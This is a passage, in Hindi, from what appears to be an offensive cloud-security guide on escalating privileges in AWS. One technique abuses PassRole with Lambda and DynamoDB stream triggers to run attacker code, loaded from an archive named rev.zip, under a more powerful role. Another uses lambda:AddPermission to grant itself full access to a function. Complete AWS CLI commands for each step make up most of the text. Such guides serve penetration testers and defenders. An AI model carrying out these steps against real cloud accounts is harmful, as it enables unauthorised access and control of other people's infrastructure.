### `iam:PassRole`, `lambda:CreateFunction`, `lambda:CreateEventSourceMapping`

**`iam:PassRole`, `lambda:CreateFunction`, और `lambda:CreateEventSourceMapping`** अनुमतियों वाले उपयोगकर्ता (और संभावित रूप से `dynamodb:PutItem` और `dynamodb:CreateTable`) अप्रत्यक्ष रूप से **विशेषाधिकार बढ़ा सकते हैं** भले ही उनके पास `lambda:InvokeFunction` न हो।\
वे **दुष्ट कोड के साथ एक लैम्ब्डा फ़ंक्शन बना सकते हैं और इसे एक मौजूदा IAM भूमिका सौंप सकते हैं**।

लैम्ब्डा को सीधे सक्रिय करने के बजाय, उपयोगकर्ता एक मौजूदा DynamoDB तालिका स्थापित करता है या उसका उपयोग करता है, इसे एक इवेंट स्रोत मैपिंग के माध्यम से लैम्ब्डा से जोड़ता है। यह सेटअप सुनिश्चित करता है कि तालिका में एक नए आइटम के प्रवेश पर लैम्ब्डा फ़ंक्शन **स्वतः सक्रिय हो** जाता है, चाहे वह उपयोगकर्ता की क्रिया द्वारा हो या किसी अन्य प्रक्रिया द्वारा, इस प्रकार अप्रत्यक्ष रूप से लैम्ब्डा फ़ंक्शन को सक्रिय करना और पास की गई IAM भूमिका के अनुमतियों के साथ कोड को निष्पादित करना।
```bash
aws lambda create-function --function-name my_function \
--runtime python3.8 --role <arn_of_lambda_role> \
--handler lambda_function.lambda_handler \
--zip-file fileb://rev.zip
```
यदि DynamoDB पहले से AWS वातावरण में सक्रिय है, तो उपयोगकर्ता केवल **Lambda फ़ंक्शन के लिए इवेंट स्रोत मैपिंग स्थापित करने की आवश्यकता है**। हालाँकि, यदि DynamoDB का उपयोग नहीं किया जा रहा है, तो उपयोगकर्ता को **स्ट्रीमिंग सक्षम के साथ एक नई तालिका बनानी होगी**:
```bash
aws dynamodb create-table --table-name my_table \
--attribute-definitions AttributeName=Test,AttributeType=S \
--key-schema AttributeName=Test,KeyType=HASH \
--provisioned-throughput ReadCapacityUnits=5,WriteCapacityUnits=5 \
--stream-specification StreamEnabled=true,StreamViewType=NEW_AND_OLD_IMAGES
```
अब यह संभव है **Lambda फ़ंक्शन को DynamoDB तालिका से कनेक्ट करना** **एक इवेंट स्रोत मैपिंग बनाकर**:
```bash
aws lambda create-event-source-mapping --function-name my_function \
--event-source-arn <arn_of_dynamodb_table_stream> \
--enabled --starting-position LATEST
```
Lambda फ़ंक्शन को DynamoDB स्ट्रीम से लिंक करके, हमलावर **DynamoDB स्ट्रीम को सक्रिय करके Lambda को अप्रत्यक्ष रूप से ट्रिगर कर सकता है**। यह **DynamoDB तालिका में एक आइटम डालकर** किया जा सकता है:
```bash
aws dynamodb put-item --table-name my_table \
--item Test={S="Random string"}
```
**संभावित प्रभाव:** निर्दिष्ट लैम्ब्डा सेवा भूमिका के लिए सीधे प्रिवेस्क।

### `lambda:AddPermission`

इस अनुमति के साथ एक हमलावर **अपने लिए (या दूसरों के लिए) कोई भी अनुमति प्रदान कर सकता है** (यह संसाधन आधारित नीतियों को उत्पन्न करता है ताकि संसाधन तक पहुंच प्रदान की जा सके):

{% code overflow="wrap" %}
```bash
# Give yourself all permissions (you could specify granular such as lambda:InvokeFunction or lambda:UpdateFunctionCode)
aws lambda add-permission --function-name <func_name> --statement-id asdasd --action '*' --principal arn:<your user arn>

# Invoke the function
aws lambda invoke --function-name <func_name> /tmp/outout
```
{% endcode %}
